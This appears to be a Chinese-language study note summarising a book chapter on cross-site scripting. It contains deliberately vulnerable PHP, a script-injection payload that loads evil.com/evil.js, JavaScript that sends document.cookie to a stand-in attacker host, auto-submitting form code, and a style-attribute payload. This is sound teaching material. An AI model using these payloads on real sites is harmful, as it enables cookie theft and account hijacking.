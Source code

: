
# 第3章 跨站脚本攻击（XSS）
Cross Site Script，指通过HTML注入篡改了网页，插入恶意脚本，从而在用户浏览网页时执行攻击。（一开始这种攻击都是用来演示跨域攻击的，所以叫跨站脚本，到如今是否跨域已经不再重要）

例：
```
<?php
$input = $_GET["param"];
echo "<div>" . $input . "</div>";
?>
```
提交这样一个请求：
```
test.php?param=<script>alert(/xss/)</script>
```

## XSS Payload
XSS Payload实际上就是JavaScript脚本，所以任何JavaScript脚本能实现的功能XSS Payload都能做到。比如读取Cookies，从而发起Cookies劫持攻击（Cookies中可能有登录凭证）；
例如攻击者先加载这样一个远程脚本：
http://www.a.com/test.html?abc="><script src=http://www.evil.com/evil.js></script>"，正在的Payload写在这个远程脚本中从而避免直接在URL参数中写入大量的Javascript代码。在evil.js中通过如下方式窃取Cookies：
```
var img = document.createElement("img");
img.src = "http://www.evil.com/log?"+escape(document.cookie);
document.body.appendChild(img);
```
【test.html的内容没有，上面的例子不通顺，艹】


同样的，可以通过img的src标签来发起GET请求。对于POST请求，则可以通过JavaScript动态构造一个表单，然后自动提交这个表单来实现：
```
var f = document.createElement("form");
f.action = "...";
f.method = "post";
document.body.appendChild(f);

var il = document.createElement("input");
il.name = "ck";
il.value = "dd";
f.append(il);

f.submit();
```

详略（很多历史问题原理的讨论，现已修复）。

通过style标签也能构造出XSS：
```
<div style="background: url('javascript:alert(1)')">
```

## XSS Worm
一般来说，用户之间发生交互行为的页面（发送站内信、用户留言等），如果存在存储型XSS，则比较容易发起XSS Worm攻击。
详略。
